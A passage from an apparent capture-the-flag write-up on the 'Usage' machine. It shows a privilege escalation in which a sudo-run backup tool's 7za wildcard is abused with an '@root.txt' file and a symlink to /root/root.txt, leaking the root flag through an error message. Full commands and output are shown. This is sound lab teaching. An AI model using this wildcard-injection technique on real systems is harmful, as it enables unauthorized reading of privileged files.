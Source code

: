 ```c
u+UH
/var/www/html
/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *
Error changing working directory to /var/www/html
/usr/bin/mysqldump -A > /var/backups/mysql_backup.sql
Password has been reset.
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 
<--- CUT FOR BREVITY --->
```

```c
/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *
```

We abused the `Linux Wildcard` and linked it to the file we wanted to read when the program got `executed` as `sudo`.

- [https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks)
- [https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks#id-7z](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks#id-7z)

```c
xander@usage:~$ cd /var/www/html
```

```c
xander@usage:/var/www/html$ touch @root.txt
```

```c
xander@usage:/var/www/html$ ln -s /root/root.txt root.txt
```

We executed the program and chose option `1` to perform a `backup` which displayed the content of the file we linked by causing an `arbitrary error`.

```c
xander@usage:/var/www/html$ sudo /usr/bin/usage_management
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 1

7-Zip (a) [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7763 64-Core Processor                 (A00F11),ASM,AES-NI)

Scanning the drive:
          
WARNING: No more files
623659de2f8e61b8535d04f58c526043

2984 folders, 17966 files, 113881828 bytes (109 MiB)                 

Creating archive: /var/backups/project.zip

Items to compress: 20950
```
